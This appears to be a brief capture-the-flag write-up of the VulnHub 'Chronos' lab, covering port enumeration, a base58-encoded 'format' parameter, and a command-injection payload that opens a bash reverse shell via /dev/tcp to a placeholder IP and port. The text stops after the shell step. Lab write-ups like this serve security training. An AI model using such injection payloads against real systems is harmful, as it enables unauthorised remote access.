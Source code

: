 # Chronos

![image](https://user-images.githubusercontent.com/5285547/129067750-516ca744-9b4c-4347-982f-5d4a36e431e9.png)

Room link: https://www.vulnhub.com/entry/chronos-1,735/

## Enum

Nmap 

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
```


# Port 80

Nothing much on the home page, refreshing and checking in the dev networks tools shows a strage url request

![image](https://user-images.githubusercontent.com/5285547/129068515-2591006b-ed4a-411c-99f3-540e35be3aef.png)


```
http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL
```

Add chronos.local to /etc/hosts file

Now on the page we see the result. 

![image](https://user-images.githubusercontent.com/5285547/129071126-5810cb0f-273c-473e-a8de-a117fc8b32d9.png)

Checking the encoding, it turns out its Base58

![image](https://user-images.githubusercontent.com/5285547/129075155-f2d4cab2-28b4-4fa5-94e0-bb741ec74391.png)

![image](https://user-images.githubusercontent.com/5285547/129083902-4b104c8a-ba76-4b90-9a19-8ddf1f623217.png)

Next was to get a reverse shell. 

```
# payload
;bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1";
```

![image](https://user-images.githubusercontent.com/5285547/129084566-7f38c45b-3083-47b7-b3c5-667bcac3b5e2.png)


